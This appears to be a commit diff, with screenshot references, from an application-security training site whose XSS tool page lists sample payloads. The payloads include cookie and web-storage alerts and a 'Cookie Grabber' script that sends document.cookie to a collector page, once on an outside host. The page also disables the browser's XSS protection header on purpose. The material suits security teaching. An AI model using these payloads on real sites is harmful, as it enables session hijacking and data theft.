

Before and after one commit to rajivvishwa/appsec, a PHP site: page /xss/index.php in a window 1280 px wide, after a click on "Show/Hide Scripts". Shown: the part 105-780 px from the top of the page, without its empty margins (307-1006 px from the left). Run offline with PHP 8.4, Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
XSS updated

```diff
--- a/xss/echo.php
+++ b/xss/echo.php
@@ -5,6 +5,8 @@ header("X-XSS-Protection: 0");
 <html>
 <head><title> Execute XSS </title>
   <link rel="stylesheet" type="text/css" href="styles.css" />
+
+
 </head>
 <body>
   <div id="main">
--- a/xss/index.php
+++ b/xss/index.php
@@ -12,7 +12,13 @@
           e.style.display = (e.style.display == 'none') ? 'block' : 'none';
       }
   //]]>
-  </script>
+
+        if(typeof(Storage)!=="undefined"){
+            localStorage.localKey="localValue";
+            sessionStorage.sessionKey="sessionValue";
+        }
+    </script>
+
     <div id="main">
     <h1>XSS Tool</h1>
     <div id="divContainer" align=center>
@@ -75,8 +81,15 @@
           <td colspan=2><hr></td>
           </tr>
           <tr>
-          <td>XSS </td>
+          <td>XSS cookie</td>
           <td><font size=2 color=#0196e3 face=monospace><i>&lt;script&gt;alert(document.cookie)&lt;/script&gt;</i></font></td>
+          </tr>
+          <tr>
+          <td colspan=2><hr border=1></td>
+          </tr>
+
+          <td>XSS webstorage</td>
+          <td><font size=2 color=#0196e3 face=monospace><i>&lt;script&gt;alert('localStorage: '+localStorage.localKey+'\nsessionStorage: '+sessionStorage.sessionKey)&lt;/script&gt;</i></font></td>
           </tr>
           <tr>
           <td colspan=2><hr border=1></td>
@@ -93,7 +106,7 @@
 
           <tr>
           <td>XSS Cookie Grabber</a></td>
-          <td><font size=2 color=#0196e3 face=monospace><i>&lt;script&gt;document.location='http://rajivvishwa.koding.com/appsec/xss/cgrab.php?cookie=' + document.cookie&lt;/script&gt;</i></font></td>
+          <td><font size=2 color=#0196e3 face=monospace><i>&lt;script&gt;document.location='/appsec/xss/cgrab.php?cookie=' + document.cookie&lt;/script&gt;</i></font></td>
           </tr>
           <tr>
           <td colspan=2><hr border=1></td>
```
Also changed, not shown: xss/cgrab.php (+9 -6 lines).
